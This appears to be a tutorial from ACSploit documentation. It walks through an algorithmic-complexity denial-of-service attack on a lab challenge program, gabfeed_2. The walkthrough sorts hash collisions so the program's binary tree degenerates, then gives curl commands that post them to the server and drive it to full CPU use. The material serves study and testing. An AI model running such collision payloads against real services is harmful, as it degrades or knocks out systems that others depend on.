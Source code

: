 <img src="images/acsploitwithcommands.png" class="center"  width="300">

In the event of a collision, the challenge program stores values in a binary search tree. In order to produce the worst-case behavior, we want to create a degenerate binary tree. A simple way to do this is to sort the inserted values. We also want the collisions to be space delimited (custom delimiters are soon to come in ACSploit).

```
sort collisions.txt | tr '\r\n' ' ' > sorted_collisions.txt
```

After sorting our hash collisions, we can serve them directly to the running challenge program using the example login script that was provided. First move `sorted_collisions.txt` into the `/examples` directory of gabfeed_2, and run the following script (with the target ip replaced by wherever you are running the server).


```
./login.sh foo df89gy9Qw
curl -s -b cookies.txt -F messageContents=@sorted_collisions.txt  --insecure https://[target-ip]:8080/newmessage/1_0
curl -s -L -b cookies.txt --insecure https://[target-ip]:8080/thread/1_0?suppressTimestamp=true
```

Running this bash script, we see the challenge program shoot to 100 percent CPU utilization.

<img src="images/htop.png" class="center"  width="800">
